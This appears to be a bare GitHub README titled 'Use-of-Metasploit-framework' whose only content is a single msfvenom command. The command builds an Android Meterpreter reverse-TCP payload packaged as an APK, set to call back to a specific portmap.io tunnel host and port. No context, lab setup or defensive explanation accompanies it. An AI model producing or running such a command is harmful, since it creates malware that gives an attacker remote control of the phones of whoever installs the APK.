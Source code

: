 # Use-of-Metasploit-framework
msfvenom -p android/meterpreter/reverse_tcp lhost=lalratan519-32111.portmap.io lport=32111 R > payload1.apk
